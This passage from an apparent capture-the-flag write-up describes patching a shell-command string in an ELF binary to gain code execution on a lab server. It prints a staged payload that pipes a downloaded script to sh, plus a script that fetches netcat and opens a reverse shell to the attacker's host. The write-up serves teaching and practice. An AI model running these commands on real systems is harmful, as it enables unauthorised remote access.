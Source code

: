 ![](/assets/img/19-protobs-ghex.png)

While browsing through the file, I saw a string in the ELF that looks suspiciously like a shell command: `stty raw -echo min 0 time 10`. Since this command was placed in the program as a plain string, perhaps I could replace it with my own command and could possibly get code execution on the remote server. 

### Researching how to replace a section of code inside an ELF executable

I did some research into how to replace a section of code in the ELF, and came up with [https://reverseengineering.stackexchange.com/questions/14607/replace-section-inside-elf-file](https://reverseengineering.stackexchange.com/questions/14607/replace-section-inside-elf-file).  This in turn led to: [https://unix.stackexchange.com/questions/214820/patching-a-binary-with-dd](https://unix.stackexchange.com/questions/214820/patching-a-binary-with-dd).  Using strings to determine the byte offset of the code to replace, then using `dd` it is possible to replace arbitrary code.  However, it seemed to me as if all they were doing was some fancy cut and paste.  

I knew from previous experience from doing CTFs that you could modify the hex code of a file \(and by extension the ASCII strings they represent\) almost as easily as using a regular text editor.  I decided to try "cheating" a bit using GHex. I selected the string I wanted to replace, and wrote my own commands in its place.  I kept it as simple as possible since I didn't know what kind of checks the verification would do, and decided to create a staged payload. I wanted this program to download a script that would be hosted on my local python SimpleHTTPServer.  My code read:`curl 10.10.15.20:8090/a | sh` .  This would download my script called simply `a` and then execute it using `sh`.  _I would have used bash, but nearly every Linux box is guaranteed to have `sh` or at least something aliased to it, and this also saved me a couple characters!_  

```text
#!/bin/sh
#get netcat in case remote system can't '-e'
curl 10.10.15.20:8090/nc -o /dev/shm/nc 
#make netcat executable
chmod +x /dev/shm/nc 
#use netcat reverse shell
/dev/shm/nc 10.10.15.20 12345 -e /bin/sh 
```
